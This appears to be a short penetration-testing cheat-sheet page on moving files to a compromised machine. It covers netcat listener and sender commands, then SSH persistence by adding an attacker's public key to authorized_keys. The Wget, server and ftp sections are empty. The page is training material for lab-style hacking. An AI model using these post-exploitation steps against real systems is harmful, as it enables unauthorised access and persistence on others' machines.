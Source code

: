 # Transfering files


### Netcat
The easiest way normally is to use netcat. 

So on the victim-machine we run nc like this:
```nc -lvp 3333 > enum.sh```

ANd on the attacking machine we send the file like this:

```nc 192.168.1.103 < enum.sh```

I have sometimes recieved this error:

`This is nc from the netcat-openbsd package. An alternative nc is available`

I have just run this command instead:
`nc -l 1234 > file.sh`

### SSH
If you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the /home/user dir you can find the hidden `.ssh` files by typing `ls -la`.
Then you need to do two things.

1. Create a new keypair.
You do that with: `ssh-keygen -t rsa -C "your_email@example.com"` then you enter a name for the key.

Enter file in which to save the key (/root/.ssh/id_rsa): nameOfMyKey
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: `

This will create two files, one called *nameOfMyKey* and another called *nameOfMyKey_pub*. The one with the *_pub* is of course your public key. And the other key is your private.

2. Add your public key to authorized_keys.
Now you copy the content of *nameOfMyKey_pub*. 
On the compromised machine you go to `~/.ssh` and then run add the public key to the file authorized_keys. Like this `echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys`

3. Log in.
Now you should be all set to log in using your private key. Like this

`ssh -i nameOfMyKey kim@192.168.1.103`


### Wget

###server

###ftp

